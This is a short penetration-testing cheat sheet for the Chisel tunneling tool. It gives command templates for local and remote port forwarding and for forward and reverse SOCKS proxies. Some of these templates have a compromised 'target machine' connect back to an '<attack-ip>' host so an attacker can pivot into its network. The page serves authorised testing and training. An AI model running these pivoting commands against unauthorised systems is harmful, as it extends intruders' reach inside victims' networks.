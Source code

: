 ```yaml
---
title: Chisel
desc: A fast TCP/UDP tunnel over HTTP.
tags: [Pivoting, PortForwarding]
alts: [Socat, Sshuttle]
website: https://github.com/jpillora/chisel
render_with_liquid: false
---
```


## Port Forwarding (Remote)

```sh
# On attack machine
chisel server -p <listen-port> --reverse &

# ------------------------------------------------

# On target machine
chisel client <attack-ip>:<listen-port> R:<local-port>:<target-ip>:<target-port> &
```

<br />

## Port Forwarding (Local)

```sh
# On target machine
chisel server -p <listen-port>

# -------------------------------------------------

# On attack machine
chisel client <listen-ip>:<listen-port> <local-port>:<target-ip>:<target-port>
```

<br />

## Forward SOCKS Proxy

```sh
# On target machine
chisel server -p <listen-port> --sock5

# ----------------------------------------------

# On attack machine
chisel client <target-ip>:<listen-port> <proxy-port>:socks
```

<br />

## Reverse SOCKS Proxy

```sh
# On attack machine
chisel server -p <listen-port> --reverse &

# ------------------------------------------------

# On target machine
chisel client <attack-ip>:<listen-port> R:socks &

# ---------------------------------------------

# Stop connection
jobs
kill %<NUMBER>
```